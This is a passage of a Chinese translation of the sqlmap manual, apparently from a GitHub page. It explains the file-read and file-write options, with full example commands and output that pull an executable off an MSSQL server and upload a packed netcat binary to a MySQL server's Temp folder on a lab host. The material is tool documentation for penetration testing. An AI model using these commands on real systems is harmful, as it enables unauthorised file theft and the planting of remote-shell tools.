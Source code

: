 当数据库为 MySQL，PostgreSQL 或 Microsoft SQL Server，并且当前用户有权限使用特定的函数。读取的文件可以是文本也可以是二进制文件。

列举一个 Microsoft SQL Server 2005 的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" \
--file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C__example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI) Intel
80386 32-bit 
```

### 把文件上传到数据库服务器中

参数：--file-write,--file-dest

当数据库为 MySQL，PostgreSQL 或 Microsoft SQL Server，并且当前用户有权限使用特定的函数。上传的文件可以是文本也可以是二进制文件。

列举一个 MySQL 的例子：

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write \
"/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL &gt;= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been successfully 
written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 bytes, 
same size as the local file '/software/nc.exe.packed' 
```
